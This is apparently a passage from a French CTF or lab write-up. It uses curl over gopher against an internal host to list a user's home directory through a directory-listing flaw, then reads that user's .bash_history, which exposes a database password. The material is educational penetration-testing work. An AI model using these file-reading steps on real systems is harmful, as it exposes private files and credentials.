 On observe ici un comportement digne d'un [directory listing](https://portswigger.net/kb/issues/00600100_directory-listing). L'ensemble des dossiers utilisateurs linux est accessible :

```bash
curl gopher://10.8.0.1/1robert/
```
```
i[/robert/]     TITLE   null.host       1
i               null.host       1
1..                                                                     /       604530d613f1    70
1.                                     2023-Mar-12 17:43   --------     /robert/./      604530d613f1    70
1..                                    2023-Mar-12 17:43   --------     /robert/../     604530d613f1    70
0.bash_history                         2023-Mar-11 10:35     0.5 KB     /robert/.bash_history   604530d613f1    70
0.bash_logout                          2023-Mar-11 10:35     0.2 KB     /robert/.bash_logout    604530d613f1    70
0.bashrc                               2023-Mar-11 10:35     3.5 KB     /robert/.bashrc 604530d613f1    70
0.profile                              2023-Mar-11 10:35     0.8 KB     /robert/.profile        604530d613f1    70
0databases.txt                         2023-Mar-11 10:35     0.2 KB     /robert/databases.txt   604530d613f1    70
i___________________________________________________________________            null.host       1
i                 Gophered by Gophernicus/3.1.1 on Debian/11 x86_64             null.host       1
.
```

On observe la présence d'un fichier `.bash_history` dans le dossier de l'utilisateur `robert`:

```bash
curl gopher://10.8.0.1/1robert/.bash_history
```
```
git status
git add *
git restore --staged main/
git status
git commit -m "typo"
git push
cd web
git add *
git status
git commit -m "favicon"
git push
echo "VGhlIEdhbWUK" | base64 -d
dolphin . &
python3
apt install -y mariadb-server
sudo apt install -y mariadb-server
su
mariadb -u robert
mariadb -u robert -p web
mariadb -u robert -p assword web
whoami
mariadb -u robert -password web
whoami
id
mariadb -u robert -password web < web.sql
mariadb -u robert -password -e "SHOW DATABASES;" > databases.txt
cat databases.txt
rm web.sql
sudo apt update
sudo apt upgrade
```
